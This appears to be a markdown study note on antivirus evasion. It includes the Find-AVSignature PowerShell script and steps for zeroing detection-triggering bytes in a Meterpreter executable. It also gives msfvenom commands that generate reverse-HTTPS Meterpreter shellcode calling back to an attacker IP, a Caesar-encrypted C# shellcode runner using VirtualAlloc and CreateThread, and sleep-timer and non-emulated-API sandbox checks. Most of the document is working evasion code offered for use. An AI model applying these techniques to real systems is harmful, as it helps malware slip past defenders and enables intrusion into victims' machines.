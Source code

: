 # AV software
* [ClamAV](https://www.clamav.net/)
* [Avira](https://www.avira.com/)
* TrendMicro
* McAfee
* Kaspersky
* ...

# VirusTotal alternative
[antiscan.me](https://antiscan.me)

# High level concepts
* Locating Signatures in Files and switching 'triggering' bits to 0 (and hope executable still works)
* Encoders and Encryptors. Likely detected since decoding/decrypting routines are still static and therefore detectable by signatures
* Using a custom built shellcode runner in C# or JS. Additionally encrypt the shellcode with a simple ceasars cipher to avoid detection
* Use sleep timers to detect AV's and simply return if delay is not as set
* Use non emulated API's to detect AV's and simmply return if API not available (e.g. VirtualAllocExNuma)

# Locating Signatures in Files
<details>
  <summary>Expand</summary>
Free AV products: ClamAV, Avira

We must determine the exact bytes that are triggering detection. For this we cut the binary into smaller pieces and scan them.
For this we use a PowerShell function [Find-AVSignature](http://obscuresecurity.blogspot.com/2012/12/finding-simple-av-signatures-with.html):

```powershell
function Find-AVSignature {
<#
.SYNOPSIS

    Find-AVSignature

    Locates single Byte AV signatures utilizing the same method as DSplit from "class101" on heapoverflow.com

    Authors: Chris Campbell (@obscuresec) & Matt Graeber (@mattifestation)
    License: BSD 3-Clause

.DESCRIPTION

    A script to locate tiny AV signatures.

.PARAMETER Startbyte

    Specifies the first byte to begin splitting on.

.PARAMETER Endbyte

    Specifies the last byte to split on.

.PARAMETER Interval

    Specifies the interval size to split with.

.PARAMETER Path

    Specifies the path to the binary you want tested.

.PARAMETER OutPath

    Optionally specifies the directory to write the binaries to.
    
.PARAMETER Force

    Forces the script to continue without confirmation.    

.EXAMPLE

    PS C:\> Find-AVSignature -Startbyte 0 -Endbyte max -Interval 10000 -Path c:\test\exempt\nc.exe 
    PS C:\> Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\test\exempt\nc.exe -OutPath c:\test\output\run2 -Verbose
    PS C:\> Find-AVSignature -StartByte 16000 -EndByte 17000 -Interval 100 -Path C:\test\exempt\nc.exe -OutPath c:\test\output\run3 -Verbose
    PS C:\> Find-AVSignature -StartByte 16800 -EndByte 16900 -Interval 10 -Path C:\test\exempt\nc.exe -OutPath c:\test\output\run4 -Verbose
    PS C:\> Find-AVSignature -StartByte 16890 -EndByte 16900 -Interval 1 -Path C:\test\exempt\nc.exe -OutPath c:\test\output\run5 -Verbose

.NOTES

    Several of the versions of "DSplit.exe" available on the internet contain malware.

.LINK

    http://obscuresecurity.blogspot.com/2012/12/finding-simple-av-signatures-with.html
    https://github.com/mattifestation/PowerSploit
    http://www.exploit-monday.com/
    http://heapoverflow.com/f0rums/project.php?issueid=34&filter=changes&page=2
#>

[CmdletBinding()] Param(
        [Parameter(Mandatory = $True)] [Int32] $StartByte,
        [Parameter(Mandatory = $True)] [String] $EndByte,
        [Parameter(Mandatory = $True)] [Int32] $Interval,
        [Parameter(Mandatory = $False)] [String] $Path = ($pwd.path),
        [Parameter(Mandatory = $False)] [String] $OutPath = ($pwd),
        [Switch] $Force = $False
    )

    #test variables
    if (!(Test-Path $Path)) {Throw "File path not found"}
    $Response = $True
    if (!(Test-Path $OutPath)) {}
        if ( $Force -or ( $Response = $psCmdlet.ShouldContinue("The `"$OutPath`" does not exist! Do you want to create the directory?",""))){new-item ($OutPath)-type directory}
    if (!$Response) {Throw "Output path not found"}
    if (!(Get-ChildItem $Path).Exists) {Throw "File not found"}
    [Int32] $FileSize = (Get-ChildItem $Path).Length
    if ($StartByte -gt ($FileSize - 1) -or $StartByte -lt 0) {Throw "StartByte range must be between 0 and $Filesize"}
    [Int32] $MaximumByte = (($FileSize) - 1)
    if ($EndByte -ceq "max") {$EndByte = $MaximumByte}
    if ($EndByte -gt $FileSize -or $EndByte -lt 0) {Throw "EndByte range must be between 0 and $Filesize"}

    #read in byte array
    [Byte[]] $FileByteArray = [System.IO.File]::ReadAllBytes($Path)

    #find the filename for the output name
    [String] $FileName = (Split-Path $Path -leaf).Split('.')[0]

    #Calculate the number of binaries
    [Int32] $ResultNumber = [Math]::Floor(($EndByte - $StartByte) / $Interval)
    if (((($EndByte - $StartByte) % $Interval)) -gt 0) {$ResultNumber = ($ResultNumber + 1)}
    
    #Prompt user to verify parameters to avoid writing binaries to the wrong directory
    $Response = $True
    if ( $Force -or ( $Response = $psCmdlet.ShouldContinue("This script will result in $ResultNumber binaries being written to `"$OutPath`"!",
             "Do you want to continue?"))){}
    if (!$Response) {Return}
    
    Write-Verbose "This script will now write $ResultNumber binaries to `"$OutPath`"." 
    [Int32] $Number = [Math]::Floor($Endbyte/$Interval)
        
        #write out the calculated number of binaries
        [Int32] $i = 0
        for ($i -eq 0; $i -lt $ResultNumber; $i++)
        {
            [Int32] $SplitByte = (($StartByte) + (($Interval) * ($i)))
            Write-Verbose "Byte 0 -> $($SplitByte)"
            [IO.File]::WriteAllBytes((Join-Path $OutPath "$($FileName)_$($SplitByte).bin"), $FileByteArray[0..($SplitByte)])
        }
        
        #Write out the final binary
        [IO.File]::WriteAllBytes((Join-Path $OutPath "$($FileName)_$($EndByte).bin"), $FileByteArray[0..($EndByte)])
        Write-Verbose "Byte 0 -> $($EndByte)"
        Write-Verbose "Files written to disk. Flushing memory."
        
        #During testing using large binaries, memory usage was excessive so lets fix that
        [System.GC]::Collect()
        Write-Verbose "Completed!"
}

```


First import it:

```powershell
Import-Module .\Find-AVSignature.ps1

```

The Interval parameter is used to specify the size of each individual segment of the file. This value is dependent on the size of the executable.
We will set each segment to 10000 bytes.

```
Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
```

Next run AV Scan against created folder avtest1
Let's assume the segment from 0 to 10000 is ok and the following are flagged as malicious.
Next adjust start and end bytes as well as the interval (getting smaller)

```powershell
Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest2 -Verbose -Force
```
Repeat the step until you find the exact byte that triggers AV.
Set this byte to 0 with the following scripts:


PowerShell:
```powershell
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```
Python (not tested, generated with ChatGPT):
```python
source_path = r"C:\Tools\met.exe"
destination_path = r"C:\Tools\met_mod.exe"

# Read all bytes from the source file
with open(source_path, "rb") as f:
    bytes = bytearray(f.read())

# Modify the byte at index 18867 to 0
bytes[18867] = 0

# Write the modified bytes to the destination file
with open(destination_path, "wb") as f:
    f.write(bytes)

print("File modification complete.")

```
Repeat the last step to verify that AV does not detect the segment anymore.
Afterwards, take the modified binary and repeat all over to check if there are other bytes that trigger AV.
After finding all bytes to evade detection, the file is still detected by AV. We can evade this by changing the last byte at offset 73801.
Changing it to 0x00 does not produce a clean scan, but changing it to 0xFF does. 

```powershell
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
$bytes[18987] = 0
$bytes[73801] = 0xFF
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```

</details>


# Metasploit Encoders and Encryptors

```
metasploit --list encoders
sudo msfvenomm -p ... -e x86/shikata_ga_nai -f exe -o met.exe
sudo msfvenomm -p ... -e x86/shikata_ga_nai -x notepad.exe -f exe -o met.exe

metasploit --list encrypt
sudo msfvenom -p ... --encrypt aes256 --encrypt-key asdfasdfasdf -f exe -o met.exe
```

Likely still detected since the decoding and decrypting routines are static and known by vendors.

# Custom built encrypted C# shellcode runner 

See also 09_Windows.md for basic C# shellcode runner

<details>
  <summary>Expand</summary>

We will use a simple caesar cipher with a substitution key of 2 for 'encryption'.
Create helper application (Console App (.Net Framework)) that can encrypt the shellcode.

Generate shellcode:
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=3141 -f csharp
```     

Helper Application Code:
```csharp
using System;
using System.Collections.Generic;
using System.Linqt;
using System.Text;
using System.Threading.Tasks;

namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[760] { 0xfc, 0x48, 0x83, ...}
            byte[] encoded = new byte[buf.Length];

            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }

            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            foreach (byte b in encoded)
            {
                hex.AppendFormat("0x{0:x2}, ", b);
            }
						
						Console.WriteLine("The payload is: " + hex.ToString());
        }
    }
}
```

Generate shellcode:
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=3141 -f csharp
```     

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
            uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, 
            uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, 
                  uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
            UInt32 dwMilliseconds);
        
        static void Main(string[] args)
        {
            byte[] buf = new byte[752] {0xfc,0x48,0x83,0xe4...}
						
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
            }
            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, 
                IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
</details>

# Sleep Timers
One of the oldest behavior analysis bypass techniques revolves around time delays. If an application is running in a simulator and the heuristics engine encounters a pause or sleep instruction, it will "fast forward" through the delay to the point that the application resumes its actions. This avoids a potentially long wait time during a heuristics scan.

Use the following snipped in the encrypted C# shellcode runner from the previous section

<details>
  <summary>Expand</summary>
```csharp
[DllImport("kernel32.dll")]
static extern void Sleep(uint dwMilliseconds);
        
static void Main(string[] args)
{
    DateTime t1 = DateTime.Now;
    Sleep(2000);
    double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
    if(t2 < 1.5)
    {
        return;
    }
```		

</details>

# Non-emulated APIs
Antivirus emulator engines only simulate the execution of most common executable file formats and functions. Knowing this, we can attempt to bypass detection with a function (typically a Win32 API) that is either incorrectly emulated or is not emulated at all.

There is no "master list" for obscure APIs, but browsing APIs on MSDN and reading about their intended purposes may provide clues as to how common they may be.
We will use VirtualAllocExNuma as an example. Sadly, pinvoke.net does not contain an entry for VirtualAllocExNuma, but we can compare the C type function prototype of VirtualAllocEx3 and VirtualAllocExNuma4.

<details>
  <summary>Expand</summary>

The function prototypes of VirtualAllocEx and VirtualAllocExNuma are almost the same, there is only the additional parameter 'nndPreferred' (DWORD). so we add the following import statement to our code:

```csharp
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, 
    uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

[DllImport("kernel32.dll")]
static extern IntPtr GetCurrentProcess();
```

Last we add the following if statement (simimlar to sleep statement in previous section) so the code just gracefully exits in case the API is not emulated in the simulated environment (sandbox)

```csharp
IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
if(mem == null)
{
    return;
}

```
</details>
